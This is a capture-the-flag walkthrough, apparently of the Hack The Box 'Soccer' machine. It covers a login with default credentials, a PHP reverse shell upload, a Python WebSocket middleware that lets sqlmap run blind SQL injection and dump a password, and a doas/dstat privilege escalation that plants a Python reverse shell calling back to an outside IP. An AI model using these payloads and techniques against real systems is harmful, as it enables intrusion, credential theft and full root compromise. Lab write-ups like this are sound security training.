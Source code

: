 ## Soccer


nmap reveal 3 ports 

```
Open Ports | Service Running
-----------|-----------------
22         | ssh
80         | http
9091       | xmltec-xmlmail
```

9092 is probably a ws://


in port 80 found a interstening directory /tiny 


and is made by —— © CCP Programmers —— 


find default credentials of CCP 



Default username/password: admin/admin@123 and user/12345


it worked with admin : admin@123



we got shell by uploadinf landum-php-reverse-shell in uploads and call it in http://soccer.htb/tiny/uploads/reverse.php


we impersonate www-data


we find an interesting subdomain in /etc/nginx/sites-enabled 


`soc-player.soccer.htb`

There are some options like Match, Login and Signup option Available

signup and login and i notice in source code that js is connecting in ws://


```js
<script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        ws.onopen = function (e) {
            console.log('connected to the server')
        }
        input.addEventListener('keypress', (e) => {
            keyOne(e)
        });
        
        function keyOne(e) {
            e.stopPropagation();
            if (e.keyCode === 13) {
                e.preventDefault();
                sendText();
            }
        }
        
        function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
        }
        
        ws.onmessage = function (e) {
        append(e.data)
        }
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }
    </script>

```

We can use the Below python code to direct the request from sqlmap to our localhost taken by this article
[link]https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html



```py
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass

```


1st we have to run this code and then `sqlmap -u “http://localhost:8081/?id=1" -p “id”`


account takeover success by dumping the database server and we find this creds


```
+------+-------------------+----------+----------------------+
| id   | email             | username | password             |
+------+-------------------+----------+----------------------+
| 1324 | player@player.htb | player   | PlayerOftheMatch2022 |
+------+-------------------+----------+----------------------+
```




## Player


ssh with player 


and we can privesc 


suid --> doas

in this [article]https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/

```bash
cat /usr/local/etc/doas.conf 

permit nopass player as root cmd /usr/bin/dstat

```

```bash

find / -type d -name dstat  2>/dev/null`
```

find 2 directories only /usr/local/share/dstat is writable
and we put a python revese shell with name dstat_rs.py with this code 


```py
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.109",1337));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

import pty; pty.spawn("/bin/sh")
```


so if we `doas -u root /usr/bin/dstat --rs `we can gain access as root

call our code and we can take root flag












